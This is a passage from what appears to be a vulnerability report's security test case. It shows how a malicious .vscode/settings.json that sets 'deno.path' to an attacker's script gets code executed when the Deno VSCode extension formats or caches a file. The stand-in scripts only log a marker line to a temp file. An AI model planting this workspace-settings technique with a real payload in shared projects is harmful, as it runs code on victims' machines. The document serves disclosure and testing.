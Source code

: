     - Security Test Case:
        1. **Setup Malicious Executable:**
            - Create a new directory, e.g., `malicious-deno`.
            - Inside `malicious-deno`, create a file named `deno.bat` (on Windows) or `deno.sh` (on Linux/macOS).
            - **`deno.bat` (Windows Example):**
                ```batch
                @echo off
                echo Malicious Deno Executed! >> %TEMP%\malicious_deno_execution.txt
                echo Original args: %* >> %TEMP%\malicious_deno_execution.txt
                exit 1
                ```
            - **`deno.sh` (Linux/macOS Example):**
                ```bash
                #!/bin/bash
                echo "Malicious Deno Executed!" >> /tmp/malicious_deno_execution.txt
                echo "Original args: $*" >> /tmp/malicious_deno_execution.txt
                exit 1
                ```
            - Make `deno.sh` executable: `chmod +x malicious-deno/deno.sh`
        2. **Create Malicious Workspace:**
            - Create a new directory, e.g., `test-workspace`.
            - Inside `test-workspace`, create a `.vscode` directory.
            - Inside `.vscode`, create a `settings.json` file with the following content, adjusting the path to `malicious-deno` based on your system:
                - **Windows `settings.json` Example:**
                    ```json
                    {
                        "deno.enable": true,
                        "deno.path": "<ABSOLUTE_PATH_TO>/malicious-deno/deno.bat"
                    }
                    ```
                - **Linux/macOS `settings.json` Example:**
                    ```json
                    {
                        "deno.enable": true,
                        "deno.path": "<ABSOLUTE_PATH_TO>/malicious-deno/deno.sh"
                    }
                    ```
                - Replace `<ABSOLUTE_PATH_TO>` with the absolute path to the `malicious-deno` directory you created.
            - Inside `test-workspace`, create a TypeScript file, e.g., `test.ts`:
                ```typescript
                console.log("Hello, Deno!");
                ```
        3. **Open Workspace and Trigger Vulnerability:**
            - Open the `test-workspace` in VSCode.
            - Ensure the Deno extension is active (check status bar).
            - Try to format the `test.ts` file: Right-click in the editor -> "Format Document With..." -> Select "Deno Formatter".
            - Alternatively, try to run the "Deno: Cache" command from the command palette.
        4. **Verify Malicious Execution:**
            - Check for the file `malicious_deno_execution.txt` in your `%TEMP%` directory (Windows) or `/tmp` directory (Linux/macOS).
            - The file should contain the text "Malicious Deno Executed!" and the arguments passed to the malicious executable, indicating that your malicious `deno.bat` or `deno.sh` was indeed executed instead of the real Deno CLI.
            - The formatting or caching operation will likely fail because the malicious script exits with code 1, further confirming the execution path.

        This test case demonstrates successful arbitrary code execution by manipulating the `deno.path` setting.
